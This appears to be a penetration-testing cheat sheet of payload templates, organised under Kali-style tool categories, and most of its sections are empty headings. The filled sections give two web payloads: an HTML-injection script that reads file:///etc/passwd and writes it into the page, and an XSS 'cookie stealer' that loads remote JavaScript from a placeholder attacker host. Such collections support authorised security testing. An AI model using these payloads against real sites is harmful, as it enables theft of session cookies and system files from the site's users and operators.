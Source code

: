 # Templates

## Table of Contents

- [01 Information Gathering](#01-information-gathering)
- [02 Vulnerability Analysis](#02-vulnerability-analysis)
- [03 Web Application Analysis](#03-web-application-analysis)
- [04 Database Assessment](#04-database-assessment)
- [05 Password Attacks](#05-password-attacks)
- [06 Wireless Attacks](#06-wireless-attacks)
- [07 Reverse Engineering](#07-reverse-engineering)
- [08 Exploitation Tools](#08-exploitation-tools)
- [09 Sniffing & Spoofing](#09-sniffing--spoofing)
- [10 Post Exploitation](#10-post-exploitation)
- [11 Forensics](#11-forensics)
- [12 Reporting Tools](#12-reporting-tools)
- [13 Social Engineering Tools](#13-social-engineering-tools)
- [Basics](#basics)
- [Exploiting](#exploiting)

## 01 Information Gathering
## 02 Vulnerability Analysis
## 03 Web Application Analysis

### Hypertext Markup Language (HTML)

#### Hypertext Markup Language (HTML) Injection

```js
<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///etc/passwd");
x.send();
</script>
```

### JavaScript (JS)

#### JavaScript (JS) Cookie Stealer

```js
<img src=1 onerror="this.remove(); var s=document.createElement('script'); s.src='http://<LHOST>/<FILE>.js'; document.body.appendChild(s);">
```
